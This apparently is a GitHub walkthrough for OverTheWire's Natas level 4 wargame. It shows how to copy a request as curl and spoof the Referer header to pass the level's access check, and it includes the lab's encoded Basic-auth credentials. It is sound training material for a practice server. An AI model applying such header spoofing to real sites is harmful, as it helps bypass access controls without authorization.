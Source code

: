 # 🔐 Natas 4 Walkthrough

To complete **Natas 4** of the OverTheWire wargames, we need to understand how **HTTP Referers** work.  
This particular level restricts access based on the `Referer` header — it must appear as though we're coming from **natas5**, even though we don't have direct access to that level yet.



## 🧠 The Clue

When you visit the site and refresh the page, you'll see:

> **Access disallowed. You are visiting from ...natas4... while authorized users should come only from ...natas5...**

This means our current request is coming from the wrong source (natas4), and we need to spoof or change the `Referer` to make it seem like we’re coming from **natas5**.



## 🛠️  Step-by-Step: Modifying the Referer with `curl`

We'll solve this using `curl` in the terminal by customizing the HTTP headers.

### 1. Open Developer Tools

In your browser:

- Press `F12` or right-click → **Inspect**
- Go to the **Network** tab
- Refresh the page

You’ll see a request to `index.php`.



### 2. Copy the Request as `curl`

Right-click the `index.php` request and choose:

> **Copy → Copy as cURL**

You’ll get something like:

```bash
curl 'http://natas4.natas.labs.overthewire.org/index.php' \
  --compressed \
  -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:139.0) Gecko/20100101 Firefox/139.0' \
  -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8' \
  -H 'Accept-Language: en,pl;q=0.7,en-US;q=0.3' \
  -H 'Accept-Encoding: gzip, deflate' \
  -H 'Referer: http://natas4.natas.labs.overthewire.org/index.php' \
  -H 'Authorization: Basic bmF0YXM0OlFyeVpYYzJlMHphaFVMZEhydEh4enlZa2o1OWtVeExR' \
  -H 'Connection: keep-alive' \
  -H 'Upgrade-Insecure-Requests: 1' \
  -H 'DNT: 1' \
  -H 'Sec-GPC: 1'
```


### 3. Change the Referer to point to natas5

All you have to do is modify the Referer header. Change:

```bash
-H 'Referer: http://natas4.natas.labs.overthewire.org/index.php'
```
To:

```bash
-H 'Referer: http://natas5.natas.labs.overthewire.org'
```

>Be sure to remove /index.php - it must be the root path of natas5.



### 4. Final command

Here's the full, working command:

```bash
curl 'http://natas4.natas.labs.overthewire.org/index.php' \
  --compressed \
  -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:139.0) Gecko/20100101 Firefox/139.0' \
  -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8' \
  -H 'Accept-Language: en,pl;q=0.7,en-US;q=0.3' \
  -H 'Accept-Encoding: gzip, deflate' \
  -H 'Referer: http://natas5.natas.labs.overthewire.org/' \
  -H 'Authorization: Basic bmF0YXM0OlFyeVpYYzJlMHphaFVMZEhydEh4enlZa2o1OWtVeExR' \
  -H 'Connection: keep-alive' \
  -H 'Upgrade-Insecure-Requests: 1' \
  -H 'DNT: 1' \
  -H 'Sec-GPC: 1'
```

The output should grant you the password to natas5.
> [!NOTE]
>Make sure to save these passwords somewhere, it ensures that you can come back after a longer break :)
